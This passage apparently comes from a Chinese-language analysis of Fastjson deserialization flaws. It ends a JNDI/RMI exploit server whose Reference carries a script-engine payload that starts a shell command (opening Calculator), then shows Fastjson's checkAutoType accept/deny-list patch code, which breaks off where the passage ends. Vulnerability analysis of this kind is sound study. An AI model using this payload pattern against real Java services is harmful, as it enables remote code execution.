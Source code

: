 ```java
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','open /Applications/Calculator.app/']).start()\")"));


        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);

        registry.bind("Object", referenceWrapper);


    }

}
```
第一次修复后，出现新函数checkAutoType
```java

public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {

    if (typeName == null) {

        return null;

    } else if (typeName.length() >= 128) {

        throw new JSONException("autoType is not support. " + typeName);

    } else {

        String className = typeName.replace('$', '.');

        Class<?> clazz = null;

        int mask;

        String accept;

        if (this.autoTypeSupport || expectClass != null) {

            for(mask = 0; mask < this.acceptList.length; ++mask) {

                accept = this.acceptList[mask];

                if (className.startsWith(accept)) {

                    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);

                    if (clazz != null) {

                        return clazz;

                    }

                }

            }


            for(mask = 0; mask < this.denyList.length; ++mask) {

                accept = this.denyList[mask];

```
